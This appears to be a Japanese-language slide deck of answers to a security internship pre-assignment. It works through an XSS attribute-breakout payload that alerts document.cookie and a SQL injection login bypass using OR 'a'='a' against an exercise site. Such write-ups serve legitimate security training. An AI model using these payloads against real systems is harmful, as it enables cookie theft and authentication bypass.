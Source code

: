 # VOYAGE GROUP 1day Intern

## Answer for Pre Assignment

Tamrin007(Shun Tamura)

#HSLIDE

## Q1. XSS

#VSLIDE

ユーザ名にスペースを含めて送信すると、スペース以降の文字が `input` タグの属性として埋め込まれる

#VSLIDE

### Answer

- 入力

![xss_input](pitch_img/xss_input.png)

- 入力を送信後の `input` タグ

```html
<input id="username" type="text" name="username"
 value="hoge" onfocus="alert(document.cookie);">
```

#VSLIDE

### Result

![xss_result](pitch_img/xss_result.png)

#HSLIDE

## Q2. SQL Injection

適当な文字をユーザ名として入力すると、フレームワークのエラー画面が現れ、どのようにユーザ入力から SQL を組み立てているか分かる

![sql_debug](pitch_img/sql_debug.png)

#VSLIDE

- パスワードはハッシュ化して組み立てているのでどうにもできなさそう
- 入力文字列は `'` で囲われる
- `WHERE` 句の `AND 'password'` を無効化したい

#VSLIDE

### Answer

- 入力

![sql_input](pitch_img/sql_input.png)

- 生成される SQL

```sql
SELECT u.id FROM example_user u
WHERE username = 'co3k'
OR 'a'='a' AND password = 'hash' LIMIT 1;
```

### Result

![sql_result](pitch_img/sql_result.png)
